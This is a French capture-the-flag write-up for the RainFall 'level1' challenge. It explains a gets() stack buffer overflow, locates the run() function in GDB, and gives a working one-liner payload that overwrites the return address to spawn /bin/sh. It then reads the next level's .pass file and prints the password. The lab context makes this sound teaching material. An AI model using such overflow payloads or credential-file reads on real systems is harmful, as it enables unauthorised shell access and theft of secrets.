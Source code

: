 # Level1: Exploitation de gets() pour Obtenir un Shell Non Autorisé

## Analyse du Binaire

Le programme level1 contient une vulnérabilité simple de dépassement de tampon. En examinant le code source:

```c
#include <stdio.h>

int main(void)
{
  /* Buffer de 76 octets alloué sur la pile */
  char buffer[76];

  /* gets() lit l'entrée utilisateur sans vérification de taille */
  gets(buffer);

  return 0;
}

void run(void)
{
  fwrite("Good... Wait what?\n", 1, 0x13, stdout);
  system("/bin/sh");
  return;
}
```

La vulnérabilité principale est l'utilisation de `gets()`, qui lit l'entrée utilisateur sans aucune limitation de taille dans un buffer de taille fixe.

## Explication de la Vulnérabilité

Cela crée une vulnérabilité de dépassement de tampon (buffer overflow) car:

1. Le tableau `buffer` ne fait que 76 octets de long
2. `gets()` continuera de lire des données au-delà de ces 76 octets
3. Les données dépassant le buffer écraseront la mémoire adjacente sur la pile
4. Cela inclut l'écrasement de l'adresse de retour, permettant de détourner le flux d'exécution du programme

## Localisation de la Fonction Cible

D'abord, nous utilisons GDB pour trouver l'adresse mémoire de la fonction `run()`:

```bash
level1@RainFall:~$ gdb -q ./level1
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

Nous découvrons que `run()` est située à l'adresse `0x8048444`. Cette fonction sera notre cible car elle appelle `system("/bin/sh")`.

## Élaboration de l'Exploit

Notre exploit doit:

1. Remplir le buffer de 76 octets
2. Écraser l'adresse de retour avec l'adresse de la fonction `run()`

### Comprendre le Format Little-Endian

Sur l'architecture x86 (utilisée par ce binaire), les adresses mémoire sont stockées au format little-endian. Cela signifie que l'octet le moins significatif est stocké à l'adresse mémoire la plus basse.

Pour notre adresse `0x08048444`:

- En big-endian: `08 04 84 44`
- En little-endian: `44 84 04 08`

Nous devons utiliser le format little-endian dans notre payload car c'est ainsi que le processeur interprétera les octets lors de la lecture de l'adresse de retour depuis la pile.

### Construction de la Commande d'Exploit

```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

Décortiquons cette commande:

- `python -c '...'`: L'option `-c` permet d'exécuter du code Python directement depuis la ligne de commande
- `print "A"*76`: Crée 76 caractères 'A' pour remplir le buffer
- `"\x44\x84\x04\x08"`: La représentation little-endian de l'adresse de la fonction `run()`
- `cat` sans arguments: Maintient stdin ouvert après l'envoi de notre payload
- Redirection vers `./level1`: Alimente notre payload vers l'entrée standard du programme

### Pourquoi Nous Avons Besoin de `cat`

La commande `cat` est cruciale car:

1. Lorsque l'exploit réussit et que `system("/bin/sh")` s'exécute, le shell a besoin d'une entrée standard ouverte pour recevoir des commandes
2. Sans `cat`, stdin se fermerait après l'envoi de l'exploit, provoquant la fermeture immédiate du shell
3. Avec `cat`, stdin reste ouvert, nous permettant d'interagir avec le shell généré

## Exploitation Réussie

Lorsque nous exécutons notre exploit:

```bash
level1@RainFall:~$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
```

Nous voyons le message de la fonction `run()`, confirmant que notre exploit a fonctionné. Maintenant, nous pouvons récupérer le mot de passe:

```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Ce mot de passe nous permet de passer au niveau 2.
